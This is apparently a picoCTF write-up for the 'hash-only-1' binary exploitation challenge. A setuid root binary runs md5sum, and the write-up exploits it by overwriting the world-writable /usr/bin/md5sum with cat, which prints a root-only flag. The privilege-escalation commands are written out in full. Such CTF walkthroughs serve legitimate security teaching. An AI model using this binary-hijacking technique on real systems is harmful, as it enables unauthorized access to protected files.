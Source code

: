 # hash-only-1 #
 
## Overview ##

100 points

Category: [Binary Exploitation](../)

Tags: `#binaryexploitation #setuid`

## Description ##

Here is a binary that has enough privilege to read the content of the flag file but will only let you know its hash. If only it could just give you the actual content!

Connect using ssh `<user>@<server> -p <pornum>` with the password, `<password>` and run the binary named `"flaghasher"`. 

You can get a copy of the binary if you wish: `scp -P <portnum> <user>@<server>:~/flaghasher` .

## Approach ##

Connecting to the challenge server to run the challenge binary, we see:

    $ ./flaghasher 
    Computing the MD5 hash of /root/flag.txt.... 

    8c9735f569157a799a98bd2014190786  /root/flag.txt

The challenge would be far too easy if we have access to `/root` or `/root/flag.txt`, but lets try anyway:

    $ ls /root
    ls: cannot open directory '/root': Permission denied

    $ cat /root/flag.txt
    cat: /root/flag.txt: Permission denied

Inspecting the strings of the `flaghasher` binary that contain `flag`:

    $ strings flaghasher | grep flag
    Computing the MD5 hash of /root/flag.txt.... 
    /bin/bash -c 'md5sum /root/flag.txt'

Also looking at the privileges of the `flaghasher` binary itself, to confirm a `setuid` binary, remembering a `setuid` binary runs at the privileges of the file' owner:

    $ ls -al
    total 24
    drwxr-xr-x 1 ctf-player ctf-player    20 Mar  7 20:28 .
    drwxr-xr-x 1 root       root          24 Mar  6 03:44 ..
    drwx------ 2 ctf-player ctf-player    34 Mar  7 20:28 .cache
    -rw-r--r-- 1 root       root          67 Mar  6 03:45 .profile
    -rwsr-xr-x 1 root       root       18312 Mar  6 03:45 flaghasher

So from the strings output we can see it's executing the `md5sum` command to calculate the hash, so lets confirm the whereabouts of this command:

    $ which md5sum
    /usr/bin/md5sum

Looking at the `md5sum` command's privileges:

    $ ls -al /usr/bin/m*
    -rwxr-xr-x 1 root root    320 Oct  6  2021 /usr/bin/man
    -rwxr-xr-x 1 root root 162552 Feb 16  2020 /usr/bin/mawk
    -rwxr-xr-x 1 root root  35120 Jul 21  2020 /usr/bin/mcookie
    -rwxrwxrwx 1 root root  47480 Sep  5  2019 /usr/bin/md5sum
    lrwxrwxrwx 1 root root      6 Sep  5  2019 /usr/bin/md5sum.textutils -> md5sum
    -rwxr-xr-x 1 root root  14568 Jul 21  2020 /usr/bin/mesg
    -rwxr-xr-x 1 root root  88408 Sep  5  2019 /usr/bin/mkdir
    -rwxr-xr-x 1 root root  67928 Sep  5  2019 /usr/bin/mkfifo
    -rwxr-xr-x 1 root root  72024 Sep  5  2019 /usr/bin/mknod
    -rwxr-xr-x 1 root root  47448 Sep  5  2019 /usr/bin/mktemp
    -rwxr-xr-x 1 root root  43160 Jul 21  2020 /usr/bin/more
    -rwsr-xr-x 1 root root  55528 Jul 21  2020 /usr/bin/mount
    -rwxr-xr-x 1 root root  14568 Jul 21  2020 /usr/bin/mountpoint
    -rwxr-xr-x 1 root root   6498 Jan 29 14:41 /usr/bin/mtrace
    -rwxr-xr-x 1 root root 149888 Sep  5  2019 /usr/bin/mv

So our aim is to hijack the `md5sum` command replacing it with something to dump our flag, such as `cat`.

Notice that all users have write access to `/usr/bin/md5sum`.

## Solution ##

Lets simply relace `/usr/bin/md5sum` with `/usr/bin/cat`:

    $ cp /usr/bin/cat /usr/bin/md5sum

    $ ./flaghasher 
    Computing the MD5 hash of /root/flag.txt.... 
    
    picoCTF{...........redacted.............}

Where the actual flag value has been redacted for the purposes of this write up.
